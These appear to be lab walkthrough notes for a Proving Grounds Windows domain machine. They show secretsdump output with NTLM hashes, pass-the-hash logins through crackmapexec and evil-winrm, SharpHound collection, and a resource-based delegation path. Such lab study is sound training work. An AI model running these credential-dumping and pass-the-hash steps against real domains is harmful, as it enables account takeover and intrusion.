 -  smb
Get ntds\.dit \& SYSTEMfile from SMB share “Password Audit”

-  impacket\-secretsdump \-ntds ntds\.dit \-system SYSTEM LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M\.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K\.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L\.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J\.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V\.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S\.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P\.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R\.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D\.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G\.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::

-  poetry run crackmapexec winrm 192\.168\.190\.175 \-u '/home/kali/Desktop/OSCP/PG/resourced/users\.txt' \-p '/home/kali/Desktop/OSCP/PG/resourced/users\.hash'\(test all modules \- winRM works\)
HTTP        192\.168\.190\.175 5985   RESOURCEDC       \[\+\] resourced\.local\\L\.Livingstone:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808 \(Pwn3d\!\)

-  evil\-winrm \-i resourced\.local \-u 'L\.Livingstone' \-p 'aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808'

-  transfer SharpHound\.exe to victim machine
-  \.\\SharpHound\.exe \-c DcOnly

-  moved generated \.zip file to SMB share and retrieved on attacker machine
-  upload \.zip file to BloodHound

-  L\.Livingstone@resourced\.local \-\-\-\-\-\-\-\-\-\-\> resourcedc\.resourced\.local
\( This means Kerberos Resourced Based Constraint Delegation attack is possible which allows to impersonal a user \(admin\)